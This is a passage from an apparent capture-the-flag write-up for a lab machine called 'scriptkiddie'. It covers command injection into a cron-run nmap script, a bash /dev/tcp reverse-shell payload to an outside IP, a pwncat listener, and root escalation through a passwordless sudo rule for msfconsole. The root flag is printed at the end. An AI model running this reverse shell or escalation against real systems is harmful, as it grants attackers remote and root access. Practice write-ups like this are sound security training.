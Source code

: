 Once injected in `/home/pwn/scanlosers.sh` the command executed by pwn incron
job will be:

```plaintext
nmap --top-ports 10 -oN recon/ ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.135/9999 0>&1' #.nmap  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.135/9999 0>&1' # 2>&1 >/dev/null
```

Then we start a listener `pwncat -l 9999 -vv`.

## Privilege Escalation of Machine : from pwn to root

We can root `msfconsole` as root.

```plaintext
pwn@scriptkiddie:~$ sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

It will be EZ because we it's an interpretter where we can directly pass
system commands or open `irb` ruby interpreter.

```plaintext
msf6 > cat /root/root.txt
stty: 'standard input': Inappropriate ioctl for device
[*] exec: cat /root/root.txt

40aa7274fd70bacc2ade0054b081475f
```
